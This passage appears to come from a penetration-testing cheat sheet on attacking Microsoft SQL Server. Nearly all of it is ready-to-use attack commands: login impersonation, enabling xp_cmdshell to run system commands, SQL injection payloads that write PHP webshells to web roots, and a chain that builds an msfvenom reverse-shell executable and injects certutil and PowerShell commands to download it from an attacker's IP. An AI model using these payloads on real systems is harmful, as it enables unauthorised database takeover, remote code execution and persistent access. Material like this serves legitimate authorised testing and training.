 ```

# impersonate
EXECUTE AS LOGIN = '<username>'
```

##### RCE

###### run commands
```
# login
mssqlclient.py <USER>:<PASS>@<IP> -windows-auth
mssqlclient.py domain/<USER>:<PASS>@<IP> -windows-auth
mssqlclient.py <USER>:<PASS>@<DOMAIN>

# enable xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

# one liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# run commands
EXECUTE xp_cmdshell 'whoami';
```

###### write to target like webshell
```
# upload webshell
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

' UNION SELECT "<?php system($_GET['cmd']);?>" into outfile '/srv/http/cmd.php' -- -

# write webshell
SELECT "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE 'c:/wamp/www/webshell.php'

# run commands
http:/example.com/tmp/webshell.php?cmd=<command>
```

###### download tools to target and execute
```
# generate a payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe

# python server
python3 -m http.server 8000

# start listener
nc -lvnp 4444

# Enable the shell command 
' ; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

# Download our payload (pay attention to the /)
' ; EXEC xp_cmdshell 'certutil -urlcache -f http://<IP>:<PORT>/shell.exe C:\Windows\Temp\shell.exe';--

admin' UNION SELECT 1,2; EXEC xp_cmdshell 'powershell.exe "wget http://192.168.45.185:8000/revers_powershell.ps1"';--//

```